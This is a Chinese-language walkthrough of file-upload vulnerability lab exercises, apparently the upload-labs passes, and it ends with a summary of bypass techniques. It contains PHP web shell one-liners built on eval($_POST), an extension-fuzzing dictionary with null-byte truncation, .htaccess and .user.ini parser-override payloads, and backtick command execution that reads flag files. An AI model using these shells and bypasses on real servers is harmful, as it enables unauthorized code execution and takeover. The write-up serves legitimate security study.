## pass_1（前端检测）




首先可以通过看数据包判断是一个前端检测，然后上传`shell.png`,然后抓包，改png为php





然后通过在数据包中搜索找到上传的路径在 ~/upload/shell.php中，然后再蚁剑中连接即可




## pass_2（MIME检测）

- 记得做下一题时清空上传记录，否则会产生误判

首先上传`1.png`可以正常上传

再上传一个非图片内容，但是是图片名后缀的`shell.png`图片，发现也成功，说明不检测文件内容

上传`1.xxx`文件，发现被拦截，应该检测了后缀，而且是白名单，所以改后缀名应该不是

所以猜测是MIME或者文件头验证


然后上传`shell.php`，抓包，然后改变文件类型

content-type 为 `image/png`



(不知道为什么历史记录中没变)

然后同理访问`~/upload/shell.php`即可


## pass_3（黑名单检测）

首先上传1.png成功

然后上传1.html（竟然也成功，懵了）

然后上传shell.png，也成功（但是尝试抓包改名字失败了，说明不是前端检测，有可能是文件名过滤，还有可能是黑名单检测！！！）

然后尝试直接上传shell.php，失败，显示不允许上传.asp,.aspx,.php,.jsp后缀文件！

那就很显然了，就是文件名过滤，那就尝试


1. **双写绕过**
2. **变异文件扩展名绕过**
3. **大小写绕过**
4. **00截断**:利用字符串终止符（空字节，\x00）绕过文件上传中的扩展名检查或路径处理漏洞


简单写一个字典

```
pphphp
php3
php4
php5
phtml
PHP
pHp
shell.php\x00.jpg
```




爆破



查看结果

（有一个小插曲，如果你是phpstudy，可以搜索相关博客修改一下小皮中的httpd这个文件，如果修复不了就叫ai帮你修改，因为phpstudy是默认只解析php的，不解析php3，所以要修改一下配置文件）



## pass_4（黑名单检测）

跟pass_3一样

首先上传1.png成功

然后上传1.html也成功

然后上传shell.png，也成功

然后尝试直接上传shell.php，失败

很明显是黑名单

就和3一样就OK了



## pass_7

尝试了之前的几种都不行

有两个思路：

1. 加大字典爆破（因为1.xxx可以上传成功，说明是黑名单），而且不检测文件内容
2. 配置文件利用（决定：哪些文件可以访问，哪些文件会被当作程序执行，某个目录允许执行什么类型的脚本），简单来说，**配置文件 = 服务器的运行规则**


#### .htaccess 文件

```ataccess
AddType application/x-httpd-php .jpg
```

**规则：**把 `.jpg` 文件当作 `PHP` 脚本执行

`.htaccess` 是 `Apache` 服务器的一种目录级配置文件。如果服务器允许上传 `.htaccess` 文件，攻击者可以修改服务器的解析规则。


#### .user.ini 文件

```
auto_prepend_file=shell.php
```

**规则**：在执行任何 PHP 文件之前都会先加载shell.php

.user.ini 是 PHP 的一种配置文件。作用是用于修改 PHP 在某个目录中的运行配置

---

#### 结果

上传了Htaccess（内容是AddType application/x-httpd-php .png，不是jpg应该也行）之后发现png文件还是解析不了，

我没有爆破因为这会让我本机非常卡，让我内存飙升，我直接看答案，发现没问题，这道题目时黑名单绕过

空格绕过

空格点绕过





## 文件内容过滤

#### 过滤了<?php

1.利用短标签绕过：

```php
<?=表达式?>
<?=eval($_POST['x']);?>
```

2.换用js语言绕过：

```js
<script language="php">eval($_POST['x']);</script>
```

3.利用大小写绕过：

```php
 <?PhP eval($_POST['x']);?>
```

#### ()过滤

利用反引号绕过。在 PHP 中，使用反引号 `command` 的方式可以执行 shell 命令，并将命令的输出作为字符串返回。

```php
<?=`tac ../f*`?>
```

#### []过滤：

```
{ } 可以替代 [ ]
```

---

## pass_10(删除php后缀)



可以看到上传shell.php成功，但是在返回包中找不到，然后又看到上面那个数据表显示的是shell.没有后缀，所以尝试上传shell.pphphp，成功





## 总结

1. 前端检测

传图片抓包改名字

2. MIME检测

传php，该content type

3. 文件头验证

```php
GIF89a
<?php eval($_POST[1]); ?>
```

4. 后缀黑名单(php被过滤)

找字典爆破

5. 配置文件

ataccess，应对白名单或者黑名单

6. 文件内容过滤

<?php == <?=

() == \`直接执行命令\`

[] == {}

---

这次习题中没有遇到的情况：

1. 没有遇到改文件头的

2. 没有遇到内容检测的


